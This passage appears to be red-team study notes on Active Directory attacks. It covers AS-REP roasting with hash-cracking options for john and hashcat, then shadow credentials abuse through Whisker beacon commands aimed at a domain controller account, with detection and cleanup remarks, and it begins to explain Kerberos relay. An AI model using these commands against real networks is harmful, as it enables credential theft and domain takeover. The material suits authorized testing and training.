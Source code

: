 1. [[ADSearch#Enumerate ASREP Roastable Users]]
2. [[Rubeus#asreproast]]

Use `--format=krb5asrep --wordlist=wordlist squid_svc` for john or `-a 0 -m 18200 squid_svc wordlist` for hashcat.

- [[JohnTheRipper#Crack krb5asrep]]
- [[hashcat#Crack krb5asrep]]

**OPSEC**  
  
ASREPRoasting with will generate a 4768 event with RC4 encryption and a preauth type of 0.


### Shadow Credentials

There is a Key Trust model, where trust is established based on raw key data rather than a certificate.  This requires a client to store their key on their own domain object, in an attribute called `msDS-KeyCredentialLink`.  The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal.  As such, this is a DACL-style abuse as with RBCD.

First, we want to list any keys that might already be present for a target - this is important for when we want to clean up later.

```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
```

Add a new key pair to the target.

```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
```

And now, we can ask for a TGT using the Rubeus command that Whisker provides.

[[Rubeus#asktgt]]

Whisker's `clear` command will remove any and all keys from msDS-KeyCredentialLink.  This is a bad idea if a key was already present, because it will break legitimate passwordless authentication that was in place.  If this was the case, you can list the entries again and only remove the one you want.

```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
```


### Kerberos Relay Attacks

One major challenge in relaying Kerberos is that service tickets are encrypted with the service's secret key.  A ticket for CIFS/HOST-A cannot be relayed to CIFS/HOST-B because HOST-B would be unable to decrypt a ticket that was encrypted for HOST-A.  However, in Windows, the service's secret key is derived from the principal associated with its SPN and is not necessarily unique per-service.  Most services run as the local SYSTEM, which in a domain context, is the computer account in Active Directory.  Therefore, service tickets for services run on the same host, such as CIFS/HOST-A and HTTP/HOST-A, would be encrypted with the same key.
